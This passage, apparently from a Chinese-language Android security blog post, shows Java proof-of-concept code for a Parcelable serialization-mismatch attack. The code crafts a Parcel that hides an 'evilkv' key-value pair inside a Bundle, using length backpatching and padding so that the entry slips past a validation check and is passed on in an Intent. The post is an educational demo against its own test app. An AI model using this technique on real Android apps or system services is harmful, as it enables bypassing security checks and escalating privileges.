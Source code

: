 ```

   int keyIntentStartPos = parcel.dataPosition();
   parcel.writeString("evilkv");
   //值的类型
   parcel.writeInt(4);
   //对应的类
   parcel.writeString("com.egguncle.mismatchparcelable.data.EvilParcel");
   //写入数据
   parcel.writeString(evilData);

   int keyIntentEndPos = parcel.dataPosition();
   int lengthOfKeyIntent = keyIntentEndPos - keyIntentStartPos;
   // backpatch length of evilkv,回到前面那个-1处,把恶意键值对填上
   parcel.setDataPosition(keyIntentStartPos - 4);  
   parcel.writeInt(lengthOfKeyIntent);
   //回到末尾,继续写第三个键值对
   parcel.setDataPosition(keyIntentEndPos);


   //因为最后恶意kv被取出来以后,,bundle实际上就有了三个kv(在不算最后这一个的情况下)
   // 第三个kv就是我们的恶意kv,而bundle的数量只能大不能小不然就读不到第三个了
   parcel.writeString("Padding-Key");
   parcel.writeInt(0); // VAL_STRING
   parcel.writeString("Padding-Value");

   Parcel targetParcel = Parcel.obtain();
   int length = parcel.dataSize();
   targetParcel.writeInt(length);
   targetParcel.writeInt(0x4c444E42);
   targetParcel.appendFrom(parcel, 0, length);
   targetParcel.setDataPosition(0);

   Bundle bundle = new Bundle();
   bundle.setClassLoader(getClass().getClassLoader());
   bundle.readFromParcel(targetParcel);

   MyFileUtil.dumpBundle(targetParcel, "test1");

   if (checkBundle(bundle)){
       Intent intent = new Intent(MainActivity.this, Main2Activity.class);
       intent.putExtras(bundle);
       startActivity(intent);
   }else{
       Log.i(TAG, "there is a evilkv!");
   }


```
现在运行代码来看一下结果
![](https://github.com/EggUncle/Demo/blob/master/markdownimg/2018-06-15%2022-02-48%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png?raw=true)
